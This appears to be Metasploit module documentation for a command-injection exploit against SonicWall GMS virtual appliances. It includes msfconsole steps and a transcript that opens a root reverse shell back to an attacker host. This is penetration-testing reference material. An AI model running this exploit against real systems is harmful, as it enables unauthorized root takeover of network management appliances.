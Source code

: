 sonicwall_xmlrpc_rce is a remote exploit against SonicWall Global Management
System Virtual Appliance and is written by Michael Flanders of Trend
Micro Zero Day Initiative with assistance by @kernelsmith of Trend Micro Zero
Day Initiative. It is considered a reliable exploit, and allows you to remotely
execute commands as root.

## Vulnerable Application

* This exploit works against a vulnerable SonicWall Global Management System
Virtual Appliance (A.K.A. Sonicwall GMSVP) of versions 8.1 (Build 8110.1197) and
earlier. The virtual appliance can be downloaded here:
  * http://www.sonicwall.com/products/sonicwall-gms/

* This module exploits the virtual appliance's lack of checking on user-supplied
parameters to XML-RPC calls to a vulnerable Java service running on port 21009.
A call to a shell script is made using this user-supplied parameter contained in
backticks allowing command substitution and remote code execution.

* To reliably determine whether the target virtual appliance is vulnerable,
you will have to examine the web console's login page. This is also automatically
done in the check function of the exploit.

## Verification Steps

- [x] Start `msfconsole`
- [x] `use exploit/unix/sonicwall/sonicwall_xmlrpc_rce`
- [x] `set RHOST` to the IP address of the vulnerable virtual appliance
- [x] `set RPORT` to 21009
- [x] `set payload` to the desired payload
- [x] set any additional options for the payload e.g. LHOST/LPORT
- [x] `exploit`
- [x] **Verify** that you get a shell
- [x] **Verify** that you do not crash

## Options

```
set SSL [true/false]
```

* Set this true/false depending on whether the instance of SonicWall GMSVP has
been configured to use SSL.


```
set WEB_SERVER_PORT [port]
```

* This is the port of the login page for the web server/virtual appliance. For
SonicWall GMVSP this is typically http://[ip]:80; therefore, this option is set
by default to 80 (or 443 if `set SSL true`).

## Scenarios

* This is example output from a normal usage/scenario. This console output is for
SonicWall GMSVP version 8.0 (Build 8046.1396):

```
msf > use exploit/unix/sonicwall/sonicwall_xmlrpc_rce
msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > show options

Module options (exploit/unix/sonicwall/sonicwall_xmlrpc_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                             yes       The target address
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                             no        HTTP server virtual host
   WEB_SERVER_PORT                   no        Port of web console login page.
                                             Defaults to 80/443 depending on SSL.


Exploit target:

   Id  Name
   --  ----
   0   SonicWall Global Management System Virtual Appliance


msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set RPORT 21009
RPORT => 21009

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set RHOST 192.168.152.173
RHOST => 192.168.152.173

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set payload cmd/unix/reverse
payload => cmd/unix/reverse

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set LHOST 192.168.152.193
LHOST => 192.168.152.193

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > exploit

[*] Started reverse TCP double handler on 192.168.152.193:4444
[*] The target appears to be vulnerable, continuing exploit...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo H7sn3KYXeuCZy27Q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "H7sn3KYXeuCZy27Q\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.152.193:4444 -> 192.168.152.173:44698) at 2018-07-05 12:30:56 -0400
```

